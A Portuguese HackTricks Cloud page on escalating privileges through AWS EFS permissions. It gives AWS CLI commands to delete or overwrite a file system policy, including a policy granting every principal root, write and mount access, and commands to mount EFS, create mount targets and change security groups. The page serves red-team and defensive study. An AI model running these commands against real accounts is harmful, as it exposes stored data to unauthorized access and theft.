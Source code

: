 # AWS - EFS Privesc

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## EFS

Mais **informações sobre EFS** em:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Lembre-se de que, para montar um EFS, você precisa estar em uma sub-rede onde o EFS está exposto e ter acesso a ele (grupos de segurança). Se isso estiver acontecendo, por padrão, você sempre poderá montá-lo; no entanto, se estiver protegido por políticas IAM, você precisará ter as permissões extras mencionadas aqui para acessá-lo.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Com qualquer uma dessas permissões, um atacante pode **alterar a política do sistema de arquivos** para **dar acesso** a ele, ou apenas **deletá-lo** para que o **acesso padrão** seja concedido.

Para deletar a política:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Para mudar isso:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Com esta permissão, um atacante poderá **montar o EFS**. Se a permissão de escrita não for concedida por padrão a todos que podem montar o EFS, ele terá apenas **acesso de leitura**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
As permissões extras `elasticfilesystem:ClientRootAccess` e `elasticfilesystem:ClientWrite` podem ser usadas para **escrever** dentro do sistema de arquivos após ele ser montado e para **acessar** esse sistema de arquivos **como root**.

**Impacto Potencial:** Privesc indireto ao localizar informações sensíveis no sistema de arquivos.

### `elasticfilesystem:CreateMountTarget`

Se um atacante estiver dentro de uma **sub-rede** onde **nenhum ponto de montagem** do EFS existe. Ele poderia simplesmente **criar um em sua sub-rede** com este privilégio:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Impacto Potencial:** Privesc indireto ao localizar informações sensíveis no sistema de arquivos.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Em um cenário onde um atacante descobre que o EFS tem um ponto de montagem em sua sub-rede, mas **nenhum grupo de segurança está permitindo o tráfego**, ele poderia simplesmente **alterar isso modificando os grupos de segurança selecionados**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Impacto Potencial:** Privesc indireto ao localizar informações sensíveis no sistema de arquivos.

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
